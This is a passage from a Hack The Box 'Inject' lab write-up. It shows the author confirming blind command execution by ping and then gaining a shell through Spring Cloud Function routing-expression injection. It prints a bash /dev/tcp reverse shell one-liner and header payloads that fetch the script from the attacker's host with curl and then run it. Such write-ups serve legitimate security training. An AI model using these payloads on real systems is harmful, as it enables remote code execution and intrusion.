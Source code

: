 From the response, it is clear that we are not able to find out if the command is getting executed are not. lets try to ping our local machine. Sending a request to ping our local machine once and using `tcpdump` to see if we receive a ping.

![Inject](/assets/img/htb_inject/Inject-10.png)

```console
$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:13:39.723703 IP 10.10.11.204 > 10.10.14.31: ICMP echo request, id 2, seq 1, length 64
12:13:39.723740 IP 10.10.14.31 > 10.10.11.204: ICMP echo reply, id 2, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```
We have received a ping. So it is indeed getting executed.

## Foothold

I have tried to use many bash one liner scripts to get a shell, but it just does not work due to special characters in the script below.

`bash -i >& /dev/tcp/[ip]/[port] 0>&1`

So, i have put the one liner into a file `dinesh.sh`. and hosted it on my local machine using python with command `python -m http.server 1337`. Send a request from burp to fetch this file and another request to execute this file. so the header changes as below.

`spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("curl x.x.x.x:1337/dinesh.sh -o /tmp/dinesh.sh")`

`spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash /tmp/dinesh.sh")`

Since i already had a **netcat** listener ready on the port mentioned in script, I got a shell as user **frank**.
